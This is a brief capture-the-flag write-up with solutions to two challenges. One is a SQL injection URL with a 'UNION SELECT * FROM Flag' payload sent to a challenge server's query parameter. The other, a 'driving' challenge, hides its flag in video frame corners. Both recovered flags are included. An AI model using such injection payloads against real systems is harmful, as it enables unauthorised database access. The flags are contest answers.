 # Solution
```
http://52.59.124.14:5015/?p=2,10%20UNION%20SELECT%20*%20FROM%20Flag
```

Flag: `ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}`

---


---
Category: Misc
Challenge Name: driving

# Solution
Flag is hiding in each corners per 10 frames.

Flag: `ENO{Y0U_4R3_DR1V1N6_M3_CR4ZY}`


Solved by: yappare